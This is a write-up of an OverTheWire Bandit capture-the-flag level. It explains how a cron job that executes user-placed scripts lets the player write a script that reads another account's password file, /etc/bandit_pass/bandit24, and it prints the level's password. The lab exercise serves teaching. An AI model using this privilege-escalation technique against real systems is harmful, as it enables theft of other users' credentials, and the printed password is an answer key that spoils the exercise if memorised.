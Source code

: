 # 🔐 Bandit Level: Bandit23 ➝ Bandit24

## 📂 Command(s) used:
👉 
- cd /etc/cron.d/
- ls
- cat cronjob_bandit24
- cat /usr/bin/cronjob_bandit24.sh
- cd
- mkdir /tmp/mydir
  cd /tmp/mydir
- echo '#!/bin/bash' > getpass.sh
  echo 'cat /etc/bandit_pass/bandit24 > /tmp/mydir/pass.txt' >> getpass.sh
  chmod +x getpass.sh
- cp getpass.sh /var/spool/bandit24/foo/
- cat /tmp/mydir/pass.txt

<img width="687" height="565" alt="Screenshot 2025-08-29 at 1 10 00 AM" src="https://github.com/user-attachments/assets/8db8336d-bcd3-42c6-9716-de8fb4837769" />


## 📄 Password found:
👉 gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
## Notes 
##🔎 Understanding the Cronjob Script
The file /usr/bin/cronjob_bandit24.sh looks like this:
```
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*; do
    if [ "$i" != "." -a "$i" != ".." ]; then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "$owner" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
## 🔑 Key points:
- It runs every minute (cron job).
- It checks the folder: /var/spool/bandit24/foo/.
- If the file owner is bandit23 (you) → it executes that file (max 60 sec).
- Then it deletes the file.
👉 This means: you can place your own script in that folder, and it will run with bandit24’s permissions.
## ⚙️ Steps to Exploit
1. Create a temporary working directory
```
mkdir /tmp/bandit23hack
cd /tmp/bandit23hack
```
2. Create a script that steals bandit24’s password
```
nano getpass.sh
```
Paste this inside:
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23hack/pass.txt
```
Save and exit.
3. Make the script executable
```
chmod +x getpass.sh
```
4. Copy the script to the cronjob folder
```
cp getpass.sh /var/spool/bandit24/foo/
```
5. Wait for 1 minute (cronjob will run it)
6. Read the stolen password
```
cat /tmp/bandit23hack/pass.txt
```
This will show you the bandit24 password ✅
## 🎯 Summary
- Cronjob runs your script if owned by bandit23.
- Your script copies bandit24’s password into a temp file.
- Wait 1 min → read the password.
